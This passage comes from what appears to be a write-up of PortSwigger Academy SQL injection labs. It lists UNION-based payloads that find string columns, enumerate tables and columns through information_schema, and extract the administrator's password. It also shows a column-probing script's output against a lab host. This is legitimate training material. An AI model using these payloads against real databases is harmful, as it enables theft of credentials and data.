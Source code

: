 2. Identyfing the column which is compatible the string data type:

    ```sql
    ' union select null, 'a', null-- -
    ```

3. Completing the lab:

    ```sql
    ' union select null, '4P3biH', null-- -
    ```

# Lab: SQL injection UNION attack, retrieving data from other tables

1. Determing amount of columns and type of database:

    ```
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0a1900af04ea6e4d814e4f5d00e20028.web-security-academy.net/ --param category --amount 4
    https://0a1900af04ea6e4d814e4f5d00e20028.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2
    [+] Postgre 
    ```

2. Displaying tables names:

    ```sql
    ' union select table_name, null from information_schema.tables-- -
    ```

3. Listing all usernames:

    ```sql
    ' union select column_name,null from information_schema.columns where table_name='users'-- -
    ```

    - carlos
    - wiener
    - administrator

4. Getting `adminidstrator`'s password:

    ```sql
    ' union select password, null from users where username='administrator'-- -
    ```

    - 9nvwvn5hbu5llbycp21h


# Lab: SQL injection UNION attack, retrieving multiple values in a single column

1. Determining amount of columns:
